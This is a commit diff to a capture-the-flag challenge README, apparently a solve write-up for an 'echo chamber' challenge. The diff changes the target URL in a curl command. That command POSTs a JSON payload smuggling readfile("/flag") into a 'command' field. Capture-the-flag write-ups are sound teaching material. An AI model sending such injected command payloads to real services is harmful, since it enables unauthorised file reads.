

Before and after one commit to Pranavbarathi05/CTFchalls2026, a Markdown page: Misc/echo_chamber/README.md, the part around the change. Rendered like a GitHub page.

Commit message:
updates solve

````diff
--- a/Misc/echo_chamber/README.md
+++ b/Misc/echo_chamber/README.md
@@ -84,7 +84,7 @@ Create the payload:
 
 Send the malicious payload to the echo test mode:
 ```bash
-curl "http://ctf.dscjssstuniv.in:8070/?test=echo" \
+curl "https://echochamber.challenges1.ctf.dscjssstuniv.in/?test=echo" \
      -X POST \
      -H "Content-Type: application/json" \
      -d '{"signal":"Echo","command":"readfile(\"/flag\");"}'
````
